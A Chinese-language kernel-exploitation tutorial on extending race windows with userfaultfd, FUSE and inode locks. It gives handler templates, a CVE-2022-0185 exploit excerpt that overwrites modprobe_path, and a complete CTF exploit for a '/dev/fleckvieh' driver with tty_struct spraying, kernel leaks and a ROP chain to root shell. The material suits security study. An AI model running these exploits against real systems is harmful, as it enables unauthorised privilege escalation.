

userfaultfd
概述
userfaultfd是Linux提供的一种让用户自己处理缺页异常的机制，在kernel pwn中用于提高条件竞争的成功率
如果我们的user_buf是一块mmap映射的，并且未初始化的区域，此时就会触发缺页错误，copy_from_user将暂停执行
copy_from_user(kptr, user_buf, size);
如果在进入函数后，实际拷贝开始前线程被中断换下 CPU，别的线程执行，修改了 kptr 指向的内存块的所有权（比如 kfree 掉了这个内存块），然后再执行拷贝时就可以实现 UAF。这种可能性当然是比较小的，但是如果 user_buf 是一个 mmap 的内存块，并且我们为它注册了 userfaultfd，那么在拷贝时出现缺页异常后此线程会先执行我们注册的处理函数，在处理函数结束前线程一直被暂停，结束后才会执行后面的操作，大大增加了竞争的成功率。
严格意义而言 userfaultfd 并非是一种利用手法，而是 Linux 的一个系统调用，简单来说，通过 userfaultfd 这种机制，用户可以通过自定义的 page fault handler 在用户态处理缺页异常
下面的这张图很好地体现了 userfaultfd 的整个流程：  要使用 userfaultfd 系统调用，我们首先要注册一个 userfaultfd，通过 ioctl 监视一块内存区域，同时还需要专门启动一个用以进行轮询的线程 uffd monitor，该线程会通过 poll() 函数不断轮询直到出现缺页异常
当有一个线程在这块内存区域内触发缺页异常时（比如说第一次访问一个匿名页），该线程（称之为 faulting 线程）进入到内核中处理缺页异常
内核会调用 handle_userfault() 交由 userfaultfd 处理
随后 faulting 线程进入堵塞状态，同时将一个 uffd_msg 发送给 monitor 线程，等待其处理结束
monitor 线程调用通过 ioctl 处理缺页异常，有如下选项：
UFFDIO_COPY：将用户自定义数据拷贝到 faulting page 上
UFFDIO_ZEROPAGE ：将 faulting page 置0
UFFDIO_WAKE：用于配合上面两项中 UFFDIO_COPY_MODE_DONTWAKE 和 UFFDIO_ZEROPAGE_MODE_DONTWAKE 模式实现批量填充
在处理结束后 monitor 线程发送信号唤醒 faulting 线程继续工作
以上便是 userfaultfd 这个机制的整个流程，该机制最初被设计来用以进行虚拟机/进程的迁移等用途
使用方法
详细的可以参考man page 一个模板如下
void ErrExit(char* err_msg) { puts(err_msg); exit(-1); } void RegisterUserfault(void *fault_page,void *handler) { pthread_t thr; struct uffdio_api ua; struct uffdio_register ur; uint64_t uffd = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK); ua.api = UFFD_API; ua.features = 0; if (ioctl(uffd, UFFDIO_API, &ua) == -1) ErrExit("[-] ioctl-UFFDIO_API"); ur.range.start = (unsigned long)fault_page; //我们要监视的区域 ur.range.len = PAGE_SIZE; ur.mode = UFFDIO_REGISTER_MODE_MISSING; if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) //注册缺页错误处理 //当发生缺页时，程序会阻塞，此时，我们在另一个线程里操作 ErrExit("[-] ioctl-UFFDIO_REGISTER"); //开一个线程，接收错误的信号，然后处理 int s = pthread_create(&thr, NULL,handler, (void*)uffd); if (s!=0) ErrExit("[-] pthread_create"); }
注册的时候，只要用只要使用类似于
RegisterUserfault(mmap_buf, handler);
的操作就可以把handler函数绑定到mmap_buf，当mmap_buf出现缺页异常事就会调用handler来处理
比较重要的是handler的写法，开头是一些模板化的操作
void* userfaultfd_leak_handler(void* arg) { struct uffd_msg msg; unsigned long uffd = (unsigned long) arg; struct pollfd pollfd; int nready; pollfd.fd = uffd; pollfd.events = POLLIN; nready = poll(&pollfd, 1, -1);
定义一个 uffd_msg 类型的结构体在未来接受消息
需要一个 pollfd 类型的结构体提供给轮询操作，其 fd 设置为传入的 arg，events 设置为 POLLIN。然后执行 poll(&pollfd, 1, -1); 来进行轮询，这个函数会一直进行轮询，直到出现缺页错误
然后需要处理缺页
sleep(3); if (nready != 1) { ErrExit("[-] Wrong poll return val"); } nready = read(uffd, &msg, sizeof(msg)); if (nready <= 0) { ErrExit("[-] msg err"); } char* page = (char*) mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0); if (page == MAP_FAILED) { ErrExit("[-] mmap err"); } struct uffdio_copy uc; // init page memset(page, 0, sizeof(page)); uc.src = (unsigned long) page; uc.dst = (unsigned long) msg.arg.pagefault.address & ~(PAGE_SIZE - 1); uc.len = PAGE_SIZE; uc.mode = 0; uc.copy = 0; ioctl(uffd, UFFDIO_COPY, &uc); puts("[+] leak handler done"); return NULL; }
注意开头加入了 sleep 操作，在 poll 结束返回时就代表着出现了缺页了，此时 sleep 就可以起到之前说到的暂停线程的效果。然后进行一些判断什么的，并 mmap 一个页给缺页的页，都是模板化的操作。此处 mmap 的内存在缺页时有自己的处理函数，所以不会一直套娃地缺页下去
我们这里在遇到返回值错误的时候就直接错误退出了，在工程上应该会讲究一些，还会在外面套一个大死循环什么的，这里就不多说了，毕竟我们只需要利用它把线程暂停就可以了
FUSE
简单说就是userfaultfd handler被替换成了FUSE文件操作的read callback函数。当缺页异常发生时，FUSE callback将被调用。
概述
FUSE 是一个用户层文件系统框架，允许用户实现自己的文件系统。用户可以在该框架中注册 handler，来指定应对文件操作请求。这样一来便可以在实际操作文件之前，执行 handler 暂停内核执行，尽可能地延长窗口。
三个组成部分：
- fuse内核模块，它将fuse文件上的请求转发给用户空间回调
libfuse用户空间组件fusermount用于卸载fuse文件系统的工具
此时如果在该目录中有相关操作时，请求会经过VFS到fuse的内核模块，fuse内核模块根据请求类型，调用用户态应用注册的函数，然后将处理结果通过VFS返回给系统调用（步骤3）。参考

fuse_operations结构如下
struct fuse_operations { int (*getattr) (const char *, struct stat *); int (*readlink) (const char *, char *, size_t); int (*getdir) (const char *, fuse_dirh_t, fuse_dirfil_t); int (*mknod) (const char *, mode_t, dev_t); int (*mkdir) (const char *, mode_t); int (*unlink) (const char *); int (*rmdir) (const char *); int (*symlink) (const char *, const char *); int (*rename) (const char *, const char *); int (*link) (const char *, const char *); int (*chmod) (const char *, mode_t); int (*chown) (const char *, uid_t, gid_t); int (*truncate) (const char *, off_t); int (*utime) (const char *, struct utimbuf *); int (*open) (const char *, struct fuse_file_info *); int (*read) (const char *, char *, size_t, off_t, struct fuse_file_info *); int (*write) (const char *, const char *, size_t, off_t, struct fuse_file_info *); int (*statfs) (const char *, struct statvfs *); int (*flush) (const char *, struct fuse_file_info *); int (*release) (const char *, struct fuse_file_info *); int (*fsync) (const char *, int, struct fuse_file_info *); int (*setxattr) (const char *, const char *, const char *, size_t, int); int (*getxattr) (const char *, const char *, char *, size_t); int (*listxattr) (const char *, char *, size_t); int (*removexattr) (const char *, const char *); int (*opendir) (const char *, struct fuse_file_info *); int (*readdir) (const char *, void *, fuse_fill_dir_t, off_t, struct fuse_file_info *); int (*releasedir) (const char *, struct fuse_file_info *); int (*fsyncdir) (const char *, int, struct fuse_file_info *); void *(*init) (struct fuse_conn_info *conn); void (*destroy) (void *); int (*access) (const char *, int); int (*create) (const char *, mode_t, struct fuse_file_info *); int (*ftruncate) (const char *, off_t, struct fuse_file_info *); int (*fgetattr) (const char *, struct stat *, struct fuse_file_info *); int (*lock) (const char *, struct fuse_file_info *, int cmd, struct flock *); int (*utimens) (const char *, const struct timespec tv[2]); int (*bmap) (const char *, size_t blocksize, uint64_t *idx); int (*ioctl) (const char *, int cmd, void *arg, struct fuse_file_info *, unsigned int flags, void *data); int (*poll) (const char *, struct fuse_file_info *, struct fuse_pollhandle *ph, unsigned *reventsp); int (*write_buf) (const char *, struct fuse_bufvec *buf, off_t off, struct fuse_file_info *); int (*read_buf) (const char *, struct fuse_bufvec **bufp, size_t size, off_t off, struct fuse_file_info *); int (*flock) (const char *, struct fuse_file_info *, int op); int (*fallocate) (const char *, int, off_t, off_t, struct fuse_file_info *); };
使用示例：
先装libfuse-dev
// gcc fuse.c -o test -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl #define FUSE_USE_VERSION 29 #include <errno.h> #include <fuse.h> #include <stdio.h> #include <string.h> void fatal(const char *msg) { perror(msg); exit(1); } static const char *content = "Hello, World!\n"; static int getattr_callback(const char *path, struct stat *stbuf) { puts("[+] getattr_callback"); memset(stbuf, 0, sizeof(struct stat)); if (strcmp(path, "/file") == 0) { stbuf->st_mode = S_IFREG | 0777; stbuf->st_nlink = 1; stbuf->st_size = strlen(content); return 0; } return -ENOENT; } static int open_callback(const char *path, struct fuse_file_info *fi) { puts("[+] open_callback"); return 0; } static int read_callback(const char *path, char *buf, size_t size, off_t offset, struct fuse_file_info *fi) { puts("[+] read_callback"); if (strcmp(path, "/file") == 0) { size_t len = strlen(content); if (offset >= len) return 0; if ((size > len) || (offset + size > len)) { memcpy(buf, content + offset, len - offset); return len - offset; } else { memcpy(buf, content + offset, size); return size; } } return -ENOENT; } static struct fuse_operations fops = { .getattr = getattr_callback, .open = open_callback, .read = read_callback, }; /* int main(int argc, char *argv[]) { return fuse_main(argc, argv, &fops, NULL); } */ int main() { struct fuse_args args = FUSE_ARGS_INIT(0, NULL); struct fuse_chan *chan; struct fuse *fuse; if (!(chan = fuse_mount("/tmp/test", &args))) fatal("fuse_mount"); if (!(fuse = fuse_new(chan, &args, &fops, sizeof(fops), NULL))) { fuse_unmount("/tmp/test", chan); fatal("fuse_new"); } fuse_set_signal_handlers(fuse_get_session(fuse)); fuse_loop_mt(fuse); fuse_unmount("/tmp/test", chan); return 0; }
访问时 触发回调
ayoung@ay:~/Desktop/uos/qemu$ cat /tmp/test/file Hello, World!
ayoung@ay:~/how2keap$ ./test [+] getattr_callback [+] getattr_callback [+] open_callback [+] read_callback
UAF read和UAF write触发的都是FUSE read_callback，不需要write_callback。因为fuse callback发生在文件访问过程中，并不是内存页的访问过程。从引发缺页异常到FUSE callback处理，对文件来说，都是首先被读到内存页中
下图表示利用FUSE实现的竞态逻辑控制到UAF read阶段（某个例题）
如果用FUSE实现的文件在mmap中没有MAP_POPULATE（用MAP_ANONYMOUS）的情况下映射到内存中，那么在读写该区域的时候就会出现缺页，最终会调用read callback
利用这个和userfaultfd的时候一样，在内存读写发生的定时切换上下文（mmap映射fuse文件到内存，写过去的时候触发缺页）

使用方法1
以CVE-2022-0185利用为例，这个例子里漏洞发生的系统调用是fsconfig 中的 FSCONFIG_SET_STRING 操作选项
void do_win() { int size = 0x1000; char buffer[0x2000] = {0}; char pat[0x1000] = {0}; msg* message = (msg*)buffer; memset(buffer, 0x44, sizeof(buffer)); void *evil_page = mmap((void *)0x1337000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0); uint64_t race_page = 0x1338000; msg *rooter = (msg *)(race_page-0x8); rooter->mtype = 1; size = 0x1010; int target = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); send_msg(target, message, size - 0x30, 0); puts("[*] Opening ext4 filesystem"); fd = fsopen("ext4", 0); if (fd < 0) { puts("Opening"); exit(-1); } puts("[*] Overflowing..."); strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"); for (int i = 0; i < 117; i++) { fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); } puts("[*] Prepaing fault handlers via FUSE"); int evil_fd = open("evil/evil", O_RDWR); if (evil_fd < 0) { perror("evil fd failed"); exit(-1); } if ((mmap((void *)0x1338000, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_FIXED, evil_fd, 0)) != (void *)0x1338000) { perror("mmap fail fuse 1"); exit(-1); } pthread_t thread; int race = pthread_create(&thread, NULL, arb_write, NULL); if(race != 0) { perror("can't setup threads for race"); } send_msg(target, rooter, size - 0x30, 0); pthread_join(thread, NULL); munmap((void *)0x1337000, 0x1000); munmap((void *)0x1338000, 0x1000); close(evil_fd); close(fd); } void *arb_write(void *args) { uint64_t goal = modprobe_path - 8; char pat[0x1000] = {0}; memset(pat, 0x41, 29); char evil[0x20]; memcpy(evil, (void *)&goal, 8); fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0); puts("[*] Done heap overflow"); write(fuse_pipes[1], "A", 1); } int evil_read(const char *path, char *buf, size_t size, off_t offset, struct fuse_file_info *fi) { // change to modprobe_path char signal; char evil_buffer[0x1000]; memset(evil_buffer, 0x43, sizeof(evil_buffer)); char *evil = modprobe_win; memcpy((void *)(evil_buffer + 0x1000-0x30), evil, sizeof(evil)); size_t len = 0x1000; if (offset >= len) return size; if (offset + size > len) size = len - offset; memcpy(buf, evil_buffer + offset, size); // sync with the arb write thread read(fuse_pipes[0], &signal, 1); return size; }
- 首先fsopen系统调用
- 然后打开FUSE文件系统，并创建一个管道(pipe,主要是为了接下来的写)
- 申请两个相邻的页，其中打开的FUSE文件系统映射到第二个页
- 创建
arb_write线程，这个线程里包含漏洞触发函数 - 尝试对FUSE文件系统进行读写，这时候会调用我们自定义的
evil_read函数 - 自定义的
evil_read函数里尝试对管道进行写 - 线程里触发漏洞函数，将msg_msg结构的next指针覆盖成modprobe_path，并尝试对管道进行读管道读的内容就被写进了modprobe_path里
这块还不好说准不准确
使用方法2
#include <stdio.h> #include <fcntl.h> #include <sys/mman.h> #include <assert.h> #include <string.h> int main(){ int fd = open("fuse_dir/lol", O_RDWR); void *addr = mmap(0x1000, 4096, PROT_READ | PROT_WRITE, MAP_PRIVATE, fd, 0); // mmap()ed the file in demand-zero paging printf("No read done from FUSE\n"); assert(addr != -1); printf("Triggering read from FUSE\n"); //THIS will trigger the call to FUSE read printf("%s\n", (char *)addr); }
// FUSE: Filesystem in USErspace // fusefs.c - FUSE filesystem handler // Made by @LukeGix #define FUSE_USE_VERSION 26 #include <fuse.h> #include <stdio.h> #include <string.h> #include <errno.h> #include <fcntl.h> #include <unistd.h> #include <err.h> #include <sys/uio.h> #include <assert.h> #include <stdlib.h> #define FILE_TARGET "/lol" unsigned int file_size = 0; char file_buffer[4096]; int len = 10; static int FUSE_getattr(const char *path, struct stat *stbuf){ int res = 0; memset(stbuf, 0, sizeof(struct stat)); if (strcmp(path, "/") == 0) { stbuf->st_mode = S_IFDIR | 0755; stbuf->st_nlink = 2; } else if (strcmp(path, FILE_TARGET) == 0) { stbuf->st_mode = S_IFREG | 0666; stbuf->st_nlink = 1; stbuf->st_size = file_size; stbuf->st_blocks = 0; } else { res = -ENOENT; } return res; } // It defines the result of, for example, `ls` static int FUSE_readdir(const char *path, void *buf, fuse_fill_dir_t filler, off_t offset, struct fuse_file_info *fi) { filler(buf, ".", NULL, 0); filler(buf, "..", NULL, 0); filler(buf, "lol", NULL, 0); return 0; } static int FUSE_open(const char *path, struct fuse_file_info *fi) { return 0; } static int FUSE_read(const char *path, char *buf, size_t size, off_t offset, struct fuse_file_info *fi){ if(strcmp(path, FILE_TARGET) == 0){ for(;;){ printf("[+] Pausing kernel thread...\n"); sleep(200); } memcpy(buf, file_buffer, size); } return size; } static int FUSE_write(const char *path, const char *buf_to_write, size_t size, off_t offset, struct fuse_file_info *fi ){ if(strcmp(path, FILE_TARGET) == 0){ assert(offset <= 4096 && (file_size + size) <= 4096); //Write in no-append mode if(offset == 0){ memset(file_buffer, 0,4096); file_size = 0; } memcpy(file_buffer+offset, buf_to_write, size); file_size += size; } return size; } // Just random stubs static int FUSE_setxattr(const char *a, const char *b, const char *c, size_t d, int e){ return 0; } static int FUSE_truncate(const char *a, off_t b, struct fuse_file_info *fi){ return 0; } static int FUSE_chmod(const char *, mode_t, struct fuse_file_info *fi){ return 0; } static int FUSE_chown(const char *, uid_t, gid_t, struct fuse_file_info *fi){ return 0; } static int FUSE_utimens(const char *, const struct timespec tv[2], struct fuse_file_info *fi){ return 0; } static struct fuse_operations FUSE_ops = { .getattr = FUSE_getattr, .readdir = FUSE_readdir, .open = FUSE_open, .read = FUSE_read, .write = FUSE_write, .setxattr = FUSE_setxattr, .truncate = FUSE_truncate, .chmod = FUSE_chmod, .chown = FUSE_chown, .utimens = FUSE_utimens }; int main(int argc, char *argv[]) { //Initialization of the filesystem return fuse_main(argc, argv, &FUSE_ops, NULL); }
一个完整参考exp
// gcc exploit.c -o exploit -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl #define _GNU_SOURCE #define FUSE_USE_VERSION 29 #include <assert.h> #include <errno.h> #include <fcntl.h> #include <fuse.h> #include <linux/fuse.h> #include <pthread.h> #include <stdio.h> #include <stdlib.h> #include <string.h> #include <sys/ioctl.h> #include <sys/mman.h> #include <sys/syscall.h> #include <sys/types.h> #include <unistd.h> #define CMD_ADD 0xf1ec0001 #define CMD_DEL 0xf1ec0002 #define CMD_GET 0xf1ec0003 #define CMD_SET 0xf1ec0004 #define SPRAY_NUM 0x10 #define ofs_tty_ops 0xc3c3c0 #define push_rdx_pop_rsp_pop_ret (kbase + 0x09b13a) #define commit_creds (kbase + 0x072830) #define pop_rdi_ret (kbase + 0x09b0ed) #define swapgs_restore_regs_and_return_to_usermode (kbase + 0x800e26) #define init_cred (kbase + 0xe37480) void fatal(const char *msg) { perror(msg); exit(1); } typedef struct { long id; size_t size; char *data; } request_t; unsigned long user_cs, user_ss, user_sp, user_rflags; void spawn_shell() { puts("[+] returned to user land"); uid_t uid = getuid(); if (uid == 0) { printf("[+] got root (uid = %d)\n", uid); } else { printf("[!] failed to get root (uid: %d)\n", uid); exit(-1); } puts("[*] spawning shell"); system("/bin/sh"); exit(0); } void save_userland_state() { puts("[*] saving user land state"); __asm__(".intel_syntax noprefix;" "mov user_cs, cs;" "mov user_ss, ss;" "mov user_sp, rsp;" "pushf;" "pop user_rflags;" ".att_syntax"); } int ptmx[SPRAY_NUM]; cpu_set_t pwn_cpu; int victim; int fd; char *buf; unsigned long kbase, kheap; int add(char *data, size_t size) { request_t req = {.size = size, .data = data}; int r = ioctl(fd, CMD_ADD, &req); if (r == -1) fatal("blob_add"); return r; } int del(int id) { request_t req = {.id = id}; int r = ioctl(fd, CMD_DEL, &req); if (r == -1) fatal("blob_del"); return r; } int get(int id, char *data, size_t size) { request_t req = {.id = id, .size = size, .data = data}; int r = ioctl(fd, CMD_GET, &req); if (r == -1) fatal("blob_get"); return r; } int set(int id, char *data, size_t size) { request_t req = {.id = id, .size = size, .data = data}; int r = ioctl(fd, CMD_SET, &req); if (r == -1) fatal("blob_set"); return r; } static int getattr_callback(const char *path, struct stat *stbuf) { puts("[t][+] getattr_callback"); memset(stbuf, 0, sizeof(struct stat)); if (strcmp(path, "/pwn") == 0) { stbuf->st_mode = S_IFREG | 0777; stbuf->st_nlink = 1; stbuf->st_size = 0x1000; return 0; } return -ENOENT; } static int open_callback(const char *path, struct fuse_file_info *fi) { puts("[t][+] open_callback"); return 0; } static int read_callback(const char *path, char *file_buf, size_t size, off_t offset, struct fuse_file_info *fi) { static int fault_cnt = 0; puts("[t][+] read_callback"); printf("\tpath: %s\n", path); printf("\tsize: 0x%lx\n", size); printf("\toffset: 0x%lx\n", offset); if (strcmp(path, "/pwn") == 0) { switch (fault_cnt++) { case 0: case 1: puts("[t][*] UAF read"); del(victim); printf("[t][*] spraying %d tty_struct objects\n", SPRAY_NUM); for (int i = 0; i < SPRAY_NUM; i++) { ptmx[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY); if (ptmx[i] == -1) fatal("/dev/ptmx"); } return size; case 2: puts("[t][*] UAF write"); printf("[t][*] spraying %d fake tty_struct objects (blob)\n", 0x100); for (int i = 0; i < 0x100; i++) add(buf, 0x400); del(victim); printf("[t][*] spraying %d tty_struct objects\n", SPRAY_NUM); for (int i = 0; i < SPRAY_NUM; i++) { ptmx[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY); if (ptmx[i] == -1) fatal("/dev/ptmx"); } memcpy(file_buf, buf, 0x400); return size; default: fatal("[t][-] unexpected page fault"); } } return -ENOENT; } static struct fuse_operations fops = { .getattr = getattr_callback, .open = open_callback, .read = read_callback, }; int setup_done = 0; static void *fuse_thread(void *arg) { struct fuse_args args = FUSE_ARGS_INIT(0, NULL); struct fuse_chan *chan; struct fuse *fuse; puts("[t][*] setting up FUSE"); if (mkdir("/tmp/test", 0777)) fatal("mkdir(\"/tmp/test\")"); if (!(chan = fuse_mount("/tmp/test", &args))) fatal("fuse_mount"); if (!(fuse = fuse_new(chan, &args, &fops, sizeof(fops), NULL))) { fuse_unmount("/tmp/test", chan); fatal("fuse_new"); } puts("[t][*] set cpu affinity"); if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu)) fatal("sched_setaffinity"); fuse_set_signal_handlers(fuse_get_session(fuse)); setup_done = 1; puts("[t][*] waiting for page fault"); fuse_loop_mt(fuse); fuse_unmount("/tmp/test", chan); } int pwn_fd = -1; void *mmap_fuse_file(void) { if (pwn_fd != -1) { puts("[*] closing /tmp/test/pwn to reopen it"); close(pwn_fd); } pwn_fd = open("/tmp/test/pwn", O_RDWR); if (pwn_fd == -1) fatal("/tmp/test/pwn"); void *page; page = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE, pwn_fd, 0); if (page == MAP_FAILED) fatal("mmap"); printf("[+] mmap /tmp/test/pwn at 0x%llx\n", (long long unsigned int)page); return page; } int main() { save_userland_state(); puts("[*] set cpu affinity"); CPU_ZERO(&pwn_cpu); CPU_SET(0, &pwn_cpu); if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu)) fatal("sched_setaffinity"); puts("[*] spawning a FUSE thread"); pthread_t th; pthread_create(&th, NULL, fuse_thread, NULL); puts("[*] waiting for setup done"); while (!setup_done) ; fd = open("/dev/fleckvieh", O_RDWR); if (fd == -1) fatal("/dev/fleckvieh"); void *page; buf = (char *)malloc(0x400); puts("[*] UAF#1 leak kbase"); puts("[*] reading 0x20 bytes from victim blob to page"); page = mmap_fuse_file(); victim = add(buf, 0x400); get(victim, page, 0x20); kbase = *(unsigned long *)&((char *)page)[0x18] - ofs_tty_ops; for (int i = 0; i < SPRAY_NUM; i++) close(ptmx[i]); unsigned long saved_dev_ptr = *(unsigned long *)(page + 0x10); puts("[*] UAF#2 leak kheap"); page = mmap_fuse_file(); victim = add(buf, 0x400); puts("[*] reading 0x400 bytes from victim blob to page"); get(victim, page, 0x400); kheap = *(unsigned long *)(page + 0x38) - 0x38; for (int i = 0; i < SPRAY_NUM; i++) close(ptmx[i]); printf("[+] leaked kbase: 0x%lx, kheap: 0x%lx\n", kbase, kheap); puts("[*] crafting fake tty_struct in buf"); memcpy(buf, page, 0x400); unsigned long *tty = (unsigned long *)buf; tty[0] = 0x0000000100005401; // magic tty[2] = saved_dev_ptr; // dev tty[3] = kheap; // ops tty[12] = push_rdx_pop_rsp_pop_ret; // ops->ioctl puts("[*] crafting rop chain"); unsigned long *chain = (unsigned long *)(buf + 0x100); *chain++ = 0xdeadbeef; // pop *chain++ = pop_rdi_ret; *chain++ = init_cred; *chain++ = commit_creds; *chain++ = swapgs_restore_regs_and_return_to_usermode; *chain++ = 0x0; *chain++ = 0x0; *chain++ = (unsigned long)&spawn_shell; *chain++ = user_cs; *chain++ = user_rflags; *chain++ = user_sp; *chain++ = user_ss; puts("[*] UAF#3 write rop chain"); page = mmap_fuse_file(); victim = add(buf, 0x400); set(victim, page, 0x400); puts("[*] invoking ioctl to hijack control flow"); for (int i = 0; i < SPRAY_NUM; i++) ioctl(ptmx[i], 0, kheap + 0x100); getchar(); return 0; }
文件系统锁
以 ext4 文件系统的数据写入为例，可以看到在执行 generic_perform_write 函数进行实际的数据写入之前，都需要对 inode 进行一次上锁（即 inode_lock(inode) 调用）：
static ssize_t ext4_buffered_write_iter(struct kiocb *iocb, struct iov_iter *from) { ssize_t ret; struct inode *inode = file_inode(iocb->ki_filp); if (iocb->ki_flags & IOCB_NOWAIT) return -EOPNOTSUPP; inode_lock(inode); ret = ext4_write_checks(iocb, from); if (ret <= 0) goto out; ret = generic_perform_write(iocb, from); out: inode_unlock(inode); if (unlikely(ret <= 0)) return ret; return generic_write_sync(iocb, ret); }
如果有一个进程率先对某个文件进行超大量数据写入，那么另一个进程在对相同文件执行写入操作时，将会一直等待 inode 锁的释放。通过测试可知，4GB 数据的写入可以使得后一个进程等待数十秒（取决于硬盘性能），因此这个 inode 锁同样可以延长竞争窗口。
reference
fuse
- https://exploiter.dev/blog/2022/FUSE-exploit.html
- https://github.com/Crusaders-of-Rust/CVE-2022-0185/blob/master/exploit_fuse.c
- https://pawnyable.cafe/linux-kernel/LK04/fuse.html
- https://blog.wohin.me/posts/pawnyable-0304/
- https://github.com/LukeGix/FUSEFs_exploitation/blob/main/fusefs.c